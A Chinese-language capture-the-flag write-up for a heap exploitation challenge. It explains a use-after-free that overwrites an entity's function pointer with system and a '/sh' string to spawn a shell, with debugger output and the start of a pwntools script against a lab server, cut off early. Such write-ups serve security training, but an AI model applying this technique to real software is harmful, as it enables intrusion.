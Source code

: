 ```cpp
			delete_entity();
			break;
		case 3:
			set_name();
			break;
		case 4:
			trigger_event();
		default:
			puts("Invalid command");
		}
	}
	return 0;
}

```
:::
## Recon
這是個經典的表單題，總共有四種command(註冊entity / 刪除entity / 設定entity name / 觸發entitiy function pointer)，這種題目因為格局比較大，所以我都會先看哪裡有malloc或是free，首先

* ==註冊entity==→malloc
* ==設定entity name==→malloc
* ==刪除entity==→free

然後觀察一下題目一開始會給我們system的address，和一開始的heap address，並且最後可以觸發entity的function pointer，所以目標很清楚
==設法把function pointer的地址改成system，並且event的部分改成儲存`/sh\x00`的地址==
最後只要trigger就會自動開一個shell給我們

---
根據background，我們要利用的漏洞就是最後一個，也就是利用相同的大小，把已經free掉的部分拿回來加已利用
1. 先註冊兩個entity(0和1)，第0個是要利用的部分
    ![圖片](https://hackmd.io/_uploads/ryvTkuESp.png)
2. 把`/sh\x00`寫上entity
    ![圖片](https://hackmd.io/_uploads/S1Rmxu4Ha.png)
3. 刪除entity 0
    ![圖片](https://hackmd.io/_uploads/HkQKxuVB6.png)
4. 設定system的function pointer
    這要特別說明，前面三個步驟都算是正常的步驟，而如果我們設定entity的name，此時系統會malloc一塊空間寫我們輸入的entity name，以這一題來說就會是entity 0(只要大小設定的一樣就好)，因此我們可以寫入包含system address和`/sh\x00`的位置，最後再以entity 0的身分trigger該function pointer就可以拿到shell了
    ![圖片](https://hackmd.io/_uploads/rkM7Eu4r6.png)
    ```bash
    gef➤  x/gx 0x00007f706a449d70
    0x7f706a449d70 <__libc_system>: 0x74ff8548fa1e0ff3
    gef➤  x/s 0x560bb1125300
    0x560bb1125300: "sh"
    ```
5. 最後我們再利用entity 0的名義，trigger function pointer，就拿到shell了
## Exploit
```python
from pwn import *

# r = process('./chal')
r = remote('10.113.184.121', 10057)
context.arch = 'amd64'

def register(idx):
    r.recvuntil(b'choice: ')
    r.send(b'1')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())
```